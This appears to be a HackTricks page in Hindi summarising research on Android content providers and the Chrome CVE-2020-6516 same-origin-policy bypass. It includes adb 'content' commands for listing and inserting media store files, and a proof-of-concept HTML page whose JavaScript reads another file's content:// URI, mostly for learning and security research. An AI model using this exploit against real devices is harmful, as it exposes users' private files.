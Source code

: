 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

**यह [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/) पोस्ट का सारांश है।**

### मीडिया स्टोर में फ़ाइलें सूचीबद्ध करना
मीडिया स्टोर द्वारा प्रबंधित फ़ाइलों को सूचीबद्ध करने के लिए, नीचे दिए गए कमांड का उपयोग किया जा सकता है:
```bash
$ content query --uri content://media/external/file
```
मनुष्य के अनुकूल आउटपुट के लिए, प्रत्येक अनुक्रमित फ़ाइल के केवल पहचानकर्ता और पथ को प्रदर्शित करना:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```
सामग्री प्रदाता अपने निजी नामस्थान में अलग-थलग होते हैं। किसी प्रदाता तक पहुँचने के लिए विशिष्ट `content://` URI की आवश्यकता होती है। प्रदाता तक पहुँचने के लिए पथों की जानकारी एप्लिकेशन मैनिफेस्ट या Android ढांचे के स्रोत कोड से प्राप्त की जा सकती है।

### Chrome का सामग्री प्रदाताओं तक पहुँच
Android पर Chrome `content://` योजना के माध्यम से सामग्री प्रदाताओं तक पहुँच सकता है, जिससे इसे तीसरे पक्ष के अनुप्रयोगों द्वारा निर्यात की गई फ़ोटो या दस्तावेज़ जैसी संसाधनों तक पहुँचने की अनुमति मिलती है। इसे स्पष्ट करने के लिए, एक फ़ाइल को मीडिया स्टोर में डाला जा सकता है और फिर Chrome के माध्यम से पहुँचा जा सकता है:

मीडिया स्टोर में एक कस्टम प्रविष्टि डालें:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
```
नई डाली गई फ़ाइल का पहचानकर्ता खोजें:
```bash
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```
फाइल को फिर Chrome में उस फाइल के पहचानकर्ता के साथ बनाए गए URL का उपयोग करके देखा जा सकता है।

उदाहरण के लिए, किसी विशेष एप्लिकेशन से संबंधित फाइलों की सूची बनाने के लिए:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```
### Chrome CVE-2020-6516: Same-Origin-Policy Bypass

_समान मूल नीति_ (SOP) एक सुरक्षा प्रोटोकॉल है जो ब्राउज़रों में वेब पृष्ठों को विभिन्न मूलों से संसाधनों के साथ बातचीत करने से रोकता है जब तक कि इसे क्रॉस-ओरिजिन-रिसोर्स-शेयरिंग (CORS) नीति द्वारा स्पष्ट रूप से अनुमति नहीं दी जाती। इस नीति का उद्देश्य जानकारी के लीक और क्रॉस-साइट अनुरोध धोखाधड़ी को रोकना है। Chrome `content://` को एक स्थानीय योजना के रूप में मानता है, जिसका अर्थ है कि SOP नियम अधिक सख्त होते हैं, जहां प्रत्येक स्थानीय योजना URL को एक अलग मूल के रूप में माना जाता है।

हालांकि, CVE-2020-6516 एक कमजोरियों थी जो Chrome में थी, जिसने `content://` URL के माध्यम से लोड किए गए संसाधनों के लिए SOP नियमों को बायपास करने की अनुमति दी। प्रभावी रूप से, `content://` URL से JavaScript कोड अन्य संसाधनों तक पहुँच सकता था जो `content://` URLs के माध्यम से लोड किए गए थे, जो एक महत्वपूर्ण सुरक्षा चिंता थी, विशेष रूप से Android उपकरणों पर जो Android 10 से पहले के संस्करण चला रहे थे, जहां स्कोप्ड स्टोरेज लागू नहीं किया गया था।

नीचे दिए गए प्रमाण-का-धारणा इस कमजोरी को प्रदर्शित करता है, जहां एक HTML दस्तावेज़, जिसे **/sdcard** के तहत अपलोड किया गया और मीडिया स्टोर में जोड़ा गया, अपने JavaScript में `XMLHttpRequest` का उपयोग करके मीडिया स्टोर में एक अन्य फ़ाइल की सामग्री को एक्सेस और प्रदर्शित करता है, SOP नियमों को बायपास करते हुए।

Proof-of-Concept HTML:
```xml
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```
<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
